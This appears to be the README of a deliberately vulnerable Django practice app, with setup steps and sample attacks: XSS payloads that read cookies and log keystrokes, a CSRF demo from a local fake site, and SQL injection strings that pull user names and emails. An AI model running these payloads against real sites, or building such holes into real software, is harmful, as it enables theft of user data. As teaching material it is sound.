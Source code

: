 This project can make the xss attack, csrf attack, sql inject attack.

The main reference is , <a href="https://whitehatways.com/cross-site-scripting-and-cookies-a-delicious-disaster/">linked here</a>
first download this project to your local computer. 

1. Install requirements with
<code>python3 -m pip install -r requirements.txt</code>

2. Run the following commands to get Django up and going!
<br><code>python ./manage.py makemigrations</code>
<br><code>python ./manage.py migrate</code>
<br><code>python ./manage.py createsuperuser</code>
<br>&emsp; Following the prompts here!
<br><code>python seed.py</code>

3. Run the server

<br>Run <code>python ./manage.py runserver</code> to begin!

4. To XSS

The post page can add comment and show the comments written by logged or anonymous users. So the anonymous users can 
inject the script code in the comments by XSS. Everyone open the post page will trigger the xss code which may leak
users information such like cookies, passwords and affect the use of the website.

some xss code like:
- steal cookies from logged-in users
```html
<script>alert(document.cookie.split('; ')[1]);</script>
```
- alert something to interference 
```html
<script>alert("You've been hacked");</script>
```
- Listen to the user's keyboard input
```html
<script>document.addEventListener('keypress', function (event) {console.log(event.key)})</script>
```

5. To CSRF

To CSRF We need to open a fake website by http server use following bash code
```bash
python -m http.server 8080
```
I have run an attack web app in a href="wzh7076.top:8080">linked here</a>

when you in the logged in the website, and Visit the `127.0.0.1:8080`. 
You commented on something that was not manned by you

6. To sql injection

The home page have a search input which have risks of SQL injection,
We can inject the database by some SQL code such like:
- get django user list
```sql
z' UNION SELECT first_name FROM auth_user WHERE first_name LIKE '
```
- get the email of django user 
```sql
z' UNION SELECT email FROM auth_user WHERE first_name LIKE '
```

Happy Hacking! :)